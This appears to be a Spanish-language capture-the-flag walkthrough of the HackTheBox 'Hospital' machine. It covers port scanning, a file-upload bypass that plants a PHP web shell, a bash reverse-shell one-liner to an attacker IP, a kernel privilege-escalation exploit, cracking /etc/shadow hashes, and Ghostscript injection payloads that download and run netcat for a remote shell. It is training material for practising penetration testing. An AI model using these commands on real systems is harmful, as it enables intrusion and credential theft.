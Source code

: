 #windows #fuzzing #medium 
### Ping
```python
ping -c 1 10.10.11.241
PING 10.10.11.241 (10.10.11.241) 56(84) bytes of data.
64 bytes from 10.10.11.241: icmp_seq=1 ttl=127 time=77.1 ms

--- 10.10.11.241 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 77.090/77.090/77.090/0.000 ms
```

### TTL 127= Windows 

### nmap
```python
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-04-12 22:03:50Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-12T22:04:46+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2024-04-11T16:53:57
|_Not valid after:  2024-10-11T16:53:57
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6410/tcp open  msrpc             Microsoft Windows RPC
6617/tcp open  msrpc             Microsoft Windows RPC
6631/tcp open  msrpc             Microsoft Windows RPC
6645/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h58m48s, deviation: 0s, median: 6h58m47s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-12T22:04:47
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.81 seconds
```

### Enumeración del puerto 53 (Domain)
`dig`
![[Pasted image 20240412115907.png]]

`dnsrecon -d hospital.htb -a -n 10.10.11.241`
![[Pasted image 20240412115733.png]]

### Enumeración del puerto 88 (Kerberos)
por el momento solo tenemos un usuario valido. administrator
![[Pasted image 20240412122215.png]]

### impacket-GetNPUsers
intentamos obtener un `TGT` pero el usuario no tiene `UF_DONT_REQUIRE_PREAUTH` por lo cual no podremos obtener un `TGT`
![[Pasted image 20240412122450.png]]

### Enumeración del puerto 8080 (http)
después de intentar un usuario inexistente nos envía a una pagina para crear un usuario 
![[Pasted image 20240412124323.png]]


![[Pasted image 20240412124252.png]]

`iniciamos session`
encontramos una web que nos permite subir archivos en este caso imagenes
![[Pasted image 20240412231100.png]]

usaremos el repositorio [github](https://github.com/flozz/p0wny-shell?source=post_page-----ce86940a895f--------------------------------) para cargar una shell de navegador. para ello debemos cambiar el nombre del archivo de .php a png luego vamos a interceptar esta peticion con burpsuite 
![[Pasted image 20240412232907.png]]

cambiamos la extensión del archivo shell.png a shell.phar y modificamos el `content-Tyoe` para que sea un application/x-php
![[Pasted image 20240412233144.png]]

ok. parece que ha aceptado el archivo. ahora solo debemos buscar el directorio donde se esta guardando. para ello haremos fuzzing
![[Pasted image 20240412232205.png]]
los archivos que subimos se guardan en un directorio llamado uploads. asi que apuntaremos a ese archivo en la url `10.10.11.241:8080/uploads/shell.phar`

de esta manera obtenemos una shell que nos permite interactuar de manera mas facil con el sistema. y aprovechando esto usaremos el comando `bash -c "bash -i >& /dev/tcp/10.10.14.137/9001 0>&1"` para obtener una reverse shell mas estable
![[Pasted image 20240412232653.png]]

### Reverse shell
obtenemos conexión y somos el usuario www-data
![[Pasted image 20240412233811.png]]

obtenemos la versión del sistema el cual es `ubuntu 23.04` investigando en internet conseguimos un exploit para la versión 23.04 que nos permite escalar privilegios usaremos este repo [github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629.git)  
![[Pasted image 20240412234226.png]]

hacemos un git clone para descargar el repo y tenemos el exploit
![[Pasted image 20240412234845.png]]

### servirdor en python
creamos un servidor para poder compartir el exploit
![[Pasted image 20240412235524.png]]

en la maquina victima descargamos el exploit
![[Pasted image 20240412235434.png]]

le damos permisos de ejecución y lo ejecutamos 
![[Pasted image 20240412235708.png]]

### /etc/shadow
podemos leer el archivo shadow
![[Pasted image 20240413000004.png]]

en el directorio home tenemos al usuario `drwilliams` asi que primero apuntaremos al hash de este usuario
`hashcat -a 0 -m 1800 hash /usr/share/wordlists/rockyou.txt`
![[Pasted image 20240413000617.png]]

obtenemos la contraseña
![[Pasted image 20240413000720.png]]

### Puerto 80 https 
usaremos las credenciales en la web
![[Pasted image 20240413000941.png]]

### mail 
Inició sesión en el sitio web es exitoso. Después de examinar el correo de la bandeja de entrada, parece que solo acepta el formato de archivo .esp.
después de buscar en internet encontramos un exploit [github](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection.git) 
![[Pasted image 20240413001057.png]]


### Ghostscript
para esto tambien necesitaremos el binario de nc64.exe que podemos bajar de github. con el primer comando vamos a cargar el binario nc64.exe al correo electronico. y con el segundo comando vamos a ejecutar el binario. todo esto es posible a que el correo esta ejecutando codigo por detras gracias al exploit 
```python
python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.14.81:8000/nc64.exe -o nc.exe" --filename file.eps


python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.81 4444 -e cmd.exe" --filename file.eps
```

![[Pasted image 20240413004557.png]]

### Escalada de privilegios
una ves estamos dentro de la maquina podemos ejecutar el script `ghostscript.bat` para obtener las credenciales de `drbrown` 
![[Pasted image 20240413005446.png]]

### rpcclient
utilizando las credenciales de `drbronw` podemos enumerar y ver que la información del usuario administrator se esta compartiendo 
![[Pasted image 20240413005848.png]]
